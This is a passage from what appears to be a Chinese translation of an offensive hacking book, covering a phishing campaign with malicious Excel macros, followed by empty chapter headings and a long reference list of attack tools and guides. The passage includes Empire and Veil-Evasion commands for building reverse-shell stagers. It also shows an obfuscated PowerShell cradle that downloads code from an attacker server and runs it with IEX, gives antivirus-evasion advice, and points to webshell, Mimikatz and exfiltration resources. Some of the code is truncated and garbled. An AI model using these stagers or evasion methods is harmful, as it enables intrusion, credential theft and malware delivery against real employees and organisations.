{width="6.1133781714785655in"
height="3.1203707349081364in"}

（此图为了展示清晰度，使用了博客版原图）

> 通过使用set命令设置正确的端口和地址（例如 set port
> 443）。然后通过发出命令 run <Listener_name>来执行监听器。
>
> 现在我们需要生成将连接回此侦听器的PowerShell代码。我们将这段代码称为"stager"或"agent"：
```
(Emire) > Usestager launcher

(Emire) > Set Listener test

(Emire) > Set Base64 False

(Emire) > Set OutFile /root/stager.ps1
```
```powershell
[SysTeM.NET.SErVicePOinTMaNAGer]::EXPeCt10
= 0;$wC=NEw-ObjEct SYstEM.Net.WEbCLIenT;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$Wc.HeaderS.Add('User- Agent',$u);$Wc.PROXy= [SystEm.NEt.WebREQuest]::DefAuLtWEBPROxy;$W [SYsTEM.NeT.CREDENtiAlCAChe]::DefAulTNeTwORK
[chAr[]]$b=([cHaR[]] ($WC.DowNLOAdStrinG("http://<Front_Gun>:443/index.
{$_-bXor$K[$i++%$k.LEngTH]};IEX ($B-joIn'')
```

> 您可以看到代理使用对称加密密钥来传输有效负载并很好地处理工作站上定义的任何潜在代理。在远程计算机上执行脚本时，我们会在Front
> Gun服务器上收到新通知。

{width="5.768055555555556in"
height="1.667328302712161in"}

> 我们将在接下来的章节中探讨Empire的一些有趣功能，但与此同时，您可以查看help命令以获得更多。
>
> 为了将此PowerShell脚本嵌入到Excel文档中，我们将使用普通的shell函数，如前所示，或依赖于LuckyStrike。

4)  **VBA中的Meterpreter**

> 我们可以采用另一种方式，例如通过从Metasploit框架部署一个meterpreter
> shell，而不是使用PowerShell
> Empire的stager来获取shell。就我们的直接目的而言，两个stager之间的差异相对较小。他们都有额外的模块来对受感染的工作站执行有趣的操作，但是使用两个stager会增加绕过SPH的反恶意软件解决方案（防病毒，沙箱，IDS等）的几率。
>
> 如前所述，虽然metasploits的有效载荷（包括meterpreter）是反病毒公司所熟知的。他们一旦被目标接收就永远不会发出警报。为了克服这个障碍，我们将使用另一个自动添加多层加密和混淆的工具生成相同的meterpreter有效负载：Veil-Evasion
> [[24]](https://github.com/Veil-Framework/Veil-Evasion)。
>
> 回顾一下，Veil-Evasion将在PowerShell中生成一个模糊的meterpreter
> shellcode，这段代码将连接回Front
> Gun服务器上的常规metasploit监听器，并让我们完全访问工作站。
>
> 精彩。但是我们该怎么做呢？首先，我们需要在Linux上安装Veil-Evasion，并使用经典的apt-get
> install
> veil-Evasion。安装有点时间长，但一旦我们安装完成它是非常直观的。

{width="5.768518153980753in"
height="2.3732830271216097in"}

> list命令显示所有可用的有效负载。我们选择PowerShell
> reverse_https有效负载:

> use powershell/meterpreter/rev_https

> set Proxy Y

> set LHost <FrontGun_IP>

> set LPort 443

> generate

> 这会生成两个文件：

-   执行PowerShell有效载荷的meter.bat文件

-   一个预先配置的metasploit监听器：meter.rc

> 我们需要使用以下命令启动监听器：
```
FrontGun$ msfconsole -r meter.rc
```
> 然后我们可以测试meter.bat文件以确保它正常工作：

{width="5.718961067366579in"
height="2.1296292650918636in"}

> 好的，现在要将此有效负载包含在Excel文件中，我们需要手动深入了解代码。如果打开生成的meter.bat文件，您将看到其唯一目的是找出目标的系统架构并启动相应的PowerShell版本（x86或x64）。

{width="5.753018372703412in"
height="0.5092596237970254in"}

> 您可能已经注意到，meter.bat文件也以内联方式调用PS脚本，但Veil并没有对命令进行编码。我们可以在VBA
> [25]中转换这个架构验证例程，然后借用meter.bat文件中的命令，这样就可以了。
>
> 如果我们想使用Lucky
> Strike，我们可以假设Excel最有可能在32位进程中运行（大部分时间都是安全的选择），选择适当的代码位，通过移除这两个反斜杠字符""，然后将其保存到名为meter.ps1的文件中：

```powershell
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New- Object IO.MemoryStream (,$([Convert]::FromBase64String("nVRtb9s4DP6eX0EYO [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```

> 我们执行此meter_psh.ps1文件以检查它是否仍能正常工作。现在我们有一个普通的PowerShell文件，我们可以使用Lucky
> Strike生成适当的恶意Excel文件。

### 摘要

> 总而言之，我们使用Gophish建立了一个电子邮件发送平台，收集了一些员工来作为目标，并准备了两个功能强大的Excel恶意软件变种[26]，可能会绕过大多数防病毒保护。
>
> 关于这个攻击载体的美妙之处在于，如果它成功（而且我们实际上只需要数百名员工中的一名受害者），我们就会进入Greenbox！

{width="5.65740813648294in"
height="3.74126968503937in"}

> 为什么防病毒解决方案不是一个问题
>
> 防病毒解决方案的工作主要基于签名：即标记为恶意的文件内的特定数据包。例如，防病毒软件会标记恶意软件Trojan.Var.A！通过检查代码中的以下字节序列：0xFC99AADBA6143A。一些编辑器可能具有代码分析、反转、机性检查等高级功能。但实际上，核心引擎主要是基于签名的。
>
> 除了从头开始编码恶意软件以避免匹配任何已知签名，这一明显的替代方案之外，还有一个重要的事实是防病毒解决方案使它们很容易完全绕过。
>
> 他们只扫描磁盘上的文件！如果下载恶意文件，则会将其写入"下载"文件夹，并立即由防病毒软件扫描并标记。现在，如果直接在内存中注入相同的恶意文件，只要它不接触磁盘就不会触发警报。
>
> 为了实现这一点，我们可以使用一小段代码来控制变量中的恶意代码（加密或编码）。然后将该代码注入内存中的新进程或已存在进程。这样，就不会在磁盘上写入恶意文件。简而言之，这就是我们的Excel文件正在做的事情。
>
> 为什么杀毒软件没有检测到stager？有时它确实如此。但与真正的恶意软件相反，stager只是几行代码，并且可以很容易地进行调整以逃避所有签名检测[27]。

North of the (fire)wall
=======================

*"Why is it that when one man builds a wall, the next man immediately
needs to know what's on the other side?"*

***Georges R.R. Martin***

Inside the nest
===============

*"Only very brave mouse makes nest in cat's ear."*

***Earl Derr Biggers***

Hunting for data
================

*"The alchemists in their search for gold discovered many other things
of greater value."*

***Arthur Schopenhauer***

Hacking the unthinkable
=======================

*"Nothing and everything is possimpible"*

***Barney Stinson***

Summary
=======

我希望你喜欢站在黑客的立场上，以及其所带来的所有情感：沮丧、快乐和兴奋。当然，这是在我的实验室中设置的一个虚拟的例子，用于模仿真实公司的网络，但它非常准确地突出了我们在现实生活中可以发现和利用的许多缺陷。传统上这样的黑客攻击或者需要几天或几周完成，但是我们加快了这个过程，主要关注我们在开始时建立的目标。

如果您不熟悉道德黑客攻击，我建议您阅读本书中引用的文章。
不要犹豫，执行提供的多个脚本和命令。和他们一起玩，扭曲他们的论点，掌握他们的局限性。

Have fun p0wning^[[[93]]{.underline}](l)^ the world!

参考链接
========

1.  Your browser has a unique fingerprint: OS version, plugins
    installed, patch level, etc. It is used by many social networks to
    identify users even if they change IP addresses.

2.  http://www.imdb.com/title/tt4044364/ and
    https://www.theguardian.com/us-news/the-nsa-files

3.  https://www.torproject.org/

4.  A layer of security used over HTTP to encrypt web content (HTTPs)

5.  Use Bitcoin or other cryptocurrencies to pay anonymously

6.  https://www.bitcoin.com/

7.  http://cryto.net/~joepie91/bitcoinvps.html

8.  https://www.kali.org/

9.  http://www.linuxliveusb.com/ for a bootable USB Linux.

10. https://www.whonix.org/

11. https://tails.boum.org/

12. https://blog.barkly.com/phishing-statistics-2016

13. Using an anonymous email service, of course: protonmail.com,
    yopmail.com, etc.

14. https://github.com/laramies/theHarvester

15. https://getgophish.com/

16. Although some hackers try to hide the file by adding a dummy
    extension: e.g., "image.jpg.exe".

17. https://www.metasploit.com/

18. http://www.freevbcode.com/ShowCode.asp?ID=3353

19. https://www.peerlyst.com/posts/resource-infosec-powershell-tools-
    resources-and-authors

20. http://www.labofapenetrationtester.com/2015/05/week-of-powershell-
    shells-day-1.html

21. http://www.shellntel.com/blog/2016/9/13/luckystrike-a-database-backed-
    evil-macro-generator

22. https://www.powershellempire.com/

23. http://www.powershellempire.com/?page_id=110

24. https://github.com/Veil-Framework/Veil-Evasion

25. http://www.consulting-bolte.de/index.php/9-ms-office-and-visual-basic-for-
    applications-vba/154-determine-architecture-64-or-32-bit-in-vba

26. The above scenario will work on any Windows computer, provided that
    the user opens the document and activates its macros. Some hackers
    go a step further and exploit a vulnerability either on Word/Excel
    or on the browser (especially the plugins installed such as flash,
    adobe reader, etc.) in order to execute code on the computer and
    automatically elevate their privileges. Such vulnerabilities that
    are not yet patched by the editor are called zero-days, and can
    easily be worth thousands of dollars, especially for Microsoft
    products.

27. Check out this repository for inspiration on PowerShell obfuscation
    https://github.com/danielbohannon/Invoke-Obfuscation

28. https://github.com/darkoperator/dnsrecon

29. https://github.com/rbsec/dnscan

30. Another approach would be to directly query private databases for IP
    segments registered by SPH or its regular registrars, but many
    online tools request payment to perform such precise requests.

31. I put a private range to avoid any potential legal issues when
    publishing the book

32. How to configure Burp Suite:
    https://portswigger.net/burp/help/suite_gettingstarted.html

33. The ping command on Windows sends a packet with 32 bytes of data.

34. More one-liners can be found here http://pentestmonkey.net/cheat-
    sheet/shells/reverse-shell-cheat-sheet

35. Check out the HTTP headers using ZAP or BURP to know which language
    the website is using.

36. Check out fuzzdb for basic webshells in multiple languages
    https://github.com/tennc/webshell/tree/master/fuzzdb-webshell

37. A helpful browser extension to get is 'Wappalyzer'. It automatically
    fingerprints every component on the website.

38. '+' is URL encoded in the address bar to %2B

39. Complete book about SQL injections:
    https://www.amazon.com/SQL-Injection-Attacks-Defense-Second/dp/1597499633

40. https://github.com/sqlmapproject/sqlmap

41. If you want to manually practice SQL injections, check out the
    following website
    http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-
    cheat-sheet

42. https://www.drupal.org/project/drupal/releases/8.0.0

43. https://crackstation.net/

44. http://www.netmux.com/blog/how-to-build-a-password-cracking-rig

45. https://www.digitalocean.com/community/tutorials/how-to-set-up-ssh-keys--2

46. https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html

47. RDP for Remote Desktop Protocol is a Windows protocol used to
    remotely control a machine. The service usually runs on port 3389.

48. https://nmap.org/

49. www.shodan.io

50. Interestingly, while editing this book, it became apparent that
    thousands of MongoDBs are currently being trapped by malicious users
    who encrypt data and demand a ransom. The scary thing is that the
    same 'vulnerability' affects Cassandra, ElasticSearch, and Redis
    databases.

51. We can create efficient custom rules for John. Here are a few
    examples: http://contest-2010.korelogic.com/rules.html

52. https://github.com/lanjelot/patator,
    https://github.com/vanhauser-thc/thc- hydra,
    https://github.com/galkan/crowbar

53. We will stick with a compromised Linux server to show some nice
    pivoting techniques later on, otherwise it would be simple if we
    landed directly on Windows from the start.

54. For Windows: http://tim3warri0r.blogspot.fr/2012/09/windows-post-
    exploitation-command-list.html. For Linux:
    https://github.com/mubix/post-
    exploitation/wiki/Linux-Post-Exploitation-Command-List.

55. There is always the MongoDB server we got earlier, but I want to
    show you how to attack one from the "inside".

56. https://raw.githubusercontent.com/mfontanini/Programs-Scripts/master/socks5/socks5.cpp

57. The firewall blocks every port other than 80 and 443, which are
    already used by the website.

58. http://proxychains.sourceforge.net/

59. I would never run an out of the box meterpreter file on a Windows
    machine. However, given that admins are so reluctant to equip Linux
    with an antivirus solution, we can be indulgent.

60. Check out explot-db.com for publicly available exploit code.

61. https://www.youtube.com/watch?v=_8xJaaQlpBo

62. https://www.youtube.com/watch?v=-IMrNGPZTl0

63. Remote Procedure Calls is a protocol used by Windows to interact
    remotely with a machine. A call is made to port 135, which instructs
    the client to contact a random port (between 49152 and 65335) to
    issue its commands.

64. https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz

65. Each domain can be further broken down into Organization Units.

66. There are several other ways to achieve total control over a domain:
    write privilege on GPO, administrative delegation, etc.

67. A term I just invented.

68. This statement only applies to local users. As previously explained,
    a domain user authenticates to the domain controller. The lockout
    count is then held by the DC and does not take into account the
    targeted machine. E.g., if lockout = 5 and we fail authentication on
    5 different machines, a domain account is effectively locked,
    whereas a local account is not.

69. Admin may sometimes set up the LocalAccountTokenFilterPolicy
    registry key which effectively disables remote UAC.

70. We will show later on how to target users who did not click on the
    malicious payload.

71. https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

72. For this maneuver to work, we obviously need to set up a persistence
    scheme, using the run key for instance as detailed previously.

73. First method of extracting
    NTDS:https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-
    goodness-(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM)/Second method:
    https://www.cyberis.co.uk/2014/02/obtaining-ntdsdit-using-
    in-built.html

74. https://github.com/samratashok/nishang/blob/master/Utility/Do-Exfiltration.ps1

75. https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

76. We covered this part in the previous section: 5.6.2 Strategic files.

77. Outlook client works well. Otherwise there are plenty that can be
    found on Google that do the job just fine.

78. I cannot think of a greater book for cryptology than Bruce
    Schneier's Applied Cryptography.

79. If RDP port was not available, we could have gone with GPO like
    before, or WMI calls, which we will demonstrate later.

80. http://www.blackhillsinfosec.com/?p=5296

81. Thanks in great part to researchers like Soldier of Fortran,
    BigEndianSmalls and Singe.

82. Job Control Language, a « scripting » language used on mainframes to
    execute programs

83. http://x3270.bgp.nu/download.html

84. The proper way to do it would be to download a second socks proxy
    and run it on 10.10.20.118. Then, instruct proxychains to go through
    two proxies: one in the DMZ, then this second one. Since I already
    detailed how to put this in place, I would rather focus entirely on
    the Mainframe.

85. We have to wait until users disconnect from the mainframe before
    using their credentials.

86. https://github.com/ayoul3/Privesc/blob/master/ELV.APF

87. https://github.com/magnumripper/JohnTheRipper

88. For a talk about the actual hacking of a mainframe in Sweeden:
    https://www.youtube.com/watch?v=SjtyifWTqmc

89. https://github.com/ayoul3/Rexx_scripts/blob/master/REXX.GETUSERS

90. We run a second socks proxy on the 10.10.20.118 machine. That way
    our probes can avoid the DMZ firewall. We alter proxychain's
    configuration file to take it into account.

91. There are some amazing nmap scripts to brute force user accounts as
    well as passwords. I encourage you to check out Soldier of Fortran's
    work on the subject.

92. https://github.com/zedsec390/NMAP

93. Legally, of course.
